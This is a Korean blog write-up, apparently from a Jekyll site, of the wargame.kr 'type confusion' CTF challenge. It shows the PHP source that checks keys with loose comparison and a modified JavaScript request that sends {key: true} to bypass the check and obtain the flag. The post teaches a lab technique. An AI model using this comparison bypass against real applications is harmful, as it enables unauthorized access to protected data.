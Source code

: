 ```yaml
---
title: (17) Dreamhack [wargame.kr] type confusion 문제 풀이
date: 2024-01-20 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
Simple Compare Challenge.  
hint? you can see the title of this challenge.  
:D

## 문제 풀이
들어가면 있는 소스코드 부터 확인해보겠습니다.
```php
<?php
 if (isset($_GET['view-source'])) {
     show_source(__FILE__);
    exit();
 }
 if (isset($_POST['json'])) {
     usleep(500000);
     require("./lib.php"); // include for FLAG.
    $json = json_decode($_POST['json']);
    $key = gen_key();
    if ($json->key == $key) {
        $ret = ["code" => true, "flag" => $FLAG];
    } else {
        $ret = ["code" => false];
    }
    die(json_encode($ret));
 }

 function gen_key(){
     $key = uniqid("welcome to wargame.kr!_", true);
    $key = sha1($key);
     return $key;
 }
?>

<html>
    <head>
        <script src="//ajax.googleapis.com/ajax/libs/jquery/1.8.1/jquery.min.js"></script>
        <script src="./util.js"></script>
    </head>
    <body>
        <form onsubmit="return submit_check(this);">
            <input type="text" name="key" />
            <input type="submit" value="check" />
        </form>
        <a href="./?view-source">view-source</a>
    </body>
</html>
```
또한 아래 html에서 불러오는 util.js도 확인해보겠습니다.
```javascript
var lock = false;
function submit_check(f){
  if (lock) {
    alert("waiting..");
    return false;
  }
  lock = true;
  var key = f.key.value;
  if (key == "") {
    alert("please fill the input box.");
    lock = false;
    return false;
  }

  submit(key);

  return false;
}

function submit(key){
  $.ajax({
    type : "POST",
    async : false,
    url : "./index.php",
    data : {json:JSON.stringify({key: key})},
    dataType : 'json'
  }).done(function(result){
    if (result['code'] == true) {
      document.write("Congratulations! flag is " + result['flag']);
    } else {
      alert("nope...");
    }
    lock = false;
  });
}
```
이 문제를 해결하려면 `$json->key == $key` 조건이 만족되어야 합니다. 그리고 문제 설명에서 문제 제목인 type confusion이 힌트라고 합니다.  
  
코드를 보면 일단 form에 뭔가를 적으면 `submit_check`함수가 입력값이 비었는지, 그리고 중복요청을 막는 코드가 실행됩니다. 입력값이 있다면 `submit`함수가 실행되어 `{key: 입력값}`의 json을 post 요청으로 보냅니다. 입력값이 `gen_key`함수의 결과와 같다면 flag를 보여주네요.  

## Type Confusion
type confusion은 말 그대로 타입을 혼동한다는 뜻입니다.  
입력값이 예상과 다른 결과값인 경우 또는 의도되지 않은 타입의 데이터가 형변환되는 경우 발생할 수 있습니다.  
예를 들어, "123"이라는 문자열은 bool로 형변환을 하면 `true`가 됩니다.  
만약 `입력값 == "문자열"`형태로 비교되는 경우 `true`를 입력값으로 넣을 수 있다면 참이 되어 조건문을 지나갈 수 있죠.  
  
이걸 알고 다시 한번 코드를 봅시다. `gen_key()`의 결과는 어떤 문자열(`$key`)일 것이고 `$json->key == $key`에서 `$json->key`가 `true`가 넘겨지게 할 수 있다면 flag를 얻을 수 있을 겁니다.  
  

요청을 보내는건 프론트엔드의 js이기 때문에 스크립트나 요청값의 변조가 가능합니다.
```javascript
function submit(key){
  $.ajax({
    type : "POST",
    async : false,
    url : "./index.php",
    data : {json:JSON.stringify({key: true})},
    dataType : 'json'
  }).done(function(result){
    if (result['code'] == true) {
      document.write("Congratulations! flag is " + result['flag']);
    } else {
      alert("nope...");
    }
    lock = false;
  });
}
```
위와 같이 `true`를 key 값으로 post요청을 보내도록 `submit`함수를 수정했습니다.
![](https://kyuyeop.github.io/assets/img/post/17/1.png)
이렇게 콘솔에 수정한 코드를 넣어 원래 코드를 덮어씌우고 아무값이나 form에 넣고 보내주면
![](https://kyuyeop.github.io/assets/img/post/17/2.png)
![](https://kyuyeop.github.io/assets/img/post/17/3.png)
이렇게 flag를 얻을 수 있습니다.
{% endraw %}